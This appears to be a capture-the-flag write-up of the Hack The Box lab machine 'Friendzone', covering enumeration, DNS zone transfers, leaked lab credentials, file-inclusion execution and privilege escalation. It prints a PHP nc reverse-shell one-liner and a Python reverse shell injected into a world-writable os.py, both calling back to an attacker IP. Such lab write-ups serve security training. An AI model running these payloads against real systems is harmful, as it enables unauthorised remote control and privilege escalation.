 ```yaml
---
layout: post
title: "Friendzone"
categories: HTB
---
```


#### Nmap Scan

```
# Nmap 7.80 scan initiated Sun Jul 19 11:18:38 2020 as: nmap -sV -sC -p- -oA allports_nmap_scan 10.10.10.123
Nmap scan report for 10.10.10.123
Host is up (0.018s latency).
Not shown: 65528 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 404 Not Found
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.0.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


Host script results:
|_clock-skew: mean: -1h00m08s, deviation: 1h43m54s, median: -9s
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2020-07-19T04:18:59+03:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-07-19T01:18:59
|_  start_date: N/A


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 19 11:19:16 2020 -- 1 IP address (1 host up) scanned in 37.89 seconds
```
<hr>

#### Initial Access
#### Web
Visiting http://10.10.10.123 shows the following page.
take note of the email domain `"friendzoneportal.red"`
Neither Gobuster or Nikto give any use full information<br>

![](\Images\htb\friendzone\1.png)<br><br>

#### SMB
```
smbmap -H 10.10.10.123
[+] Guest session       IP: 10.10.10.123:445    Name: friendzone.red                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        Files                                                   NO ACCESS       FriendZone Samba Server Files /etc/Files
        general                                                 READ ONLY       FriendZone Samba Server Files
        Development                                             READ, WRITE     FriendZone Samba Server Files
        IPC$                                                    NO ACCESS       IPC Service (FriendZone server (Samba, Ubuntu))
```

Have read/write access to "Development" share. Taking note of the comment in the "Files" share "/etc/Files"

Running nmap to confirm location of the "Development" share on the machine
`nmap --script smb-enum-shares -p139 10.10.10.123`<br>
![](\Images\htb\friendzone\2.png)<br><br>

Connecting to the "general" share find file  "cred.txt" file which has a credentials "for the admin thing" inside<br>
![](\Images\htb\friendzone\3.png)<br><br>
![](\Images\htb\friendzone\4.png)<br><br>

Credentials
`admin:WORKWORKHhallelujah@#`


#### DNS

port 53 is open both domains are vulnerable to zone transfers
```
dig axfr friendzone.red @10.10.10.123

dig axfr friendzoneportal.red @10.10.10.123
```
<br>![](\Images\htb\friendzone\5.png)<br><br>

Add these to /etc/host file in kali<br>
![](\Images\htb\friendzone\6.png)<br><br>

Visiting https://administrator1.friendzone.red shows the following page, this is were the credentials from credz.txt are used<br>

![](\Images\htb\friendzone\7.png)<br><br>


After logging in we can see that is complaining about a parameter missing<br>

![](\Images\htb\friendzone\8.png)<br><br>

#### Revereshell

Create PHP reverse shell
`<?php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 8888 >/tmp/f');
?>`

Upload shell to the development share<br>
![](\Images\htb\friendzone\9.png)<br><br>

Start nc listener on port 8888
`nc -lvnp 8888`

Visit the following to get a reverse shell
https://administrator1.friendzone.red/dashboard.php?image_id=b.jpg&pagename=/etc/Development/shell

<br>![](\Images\htb\friendzone\10.png)<br><br>

<hr>

### User

In /var/www there is a mysql config file which contains credentials for the user friend
`friend:Agpyu12!0.213$`

<br>![](\Images\htb\friendzone\11.png)<br><br>

#### SSH
Login to box with above credentials

`ssh friend@10.10.10.123`

<br>![](\Images\htb\friendzone\12.png)<br><br>

User.txt
`a9ed20ac****************15ae9a11`

<hr>

### Root

Root

Run pspy64 to see running services<br>
![](\Images\htb\friendzone\13.png)<br><br>

After abit a new process is spawned running a python script<br>
![](\Images\htb\friendzone\14.png)<br><br>

Unfortunately "/opt/server_admin/reporter.py" is owned by root so we can't hijack the script, but the script is making use of the python OS module<br>
![](\Images\htb\friendzone\15.png)<br><br>

Script is using python 2 (tell by the #!/usr/bin/python at the top)

#### Locating OS.py
`locate os.py`
<br>![](\Images\htb\friendzone\16.png)<br><br>

os.py is world writable <br>
![](\Images\htb\friendzone\17.png)<br><br>

Injecting reverse shell to the bottom of os.py
```
import pty
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.16",8899))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()
```
<br>![](\Images\htb\friendzone\18.png)<br><br>

After a minute get a root shell<br>
![](\Images\htb\friendzone\19.png)<br><br>

root.txt
`b0e6c60b****************6a9e90c7`

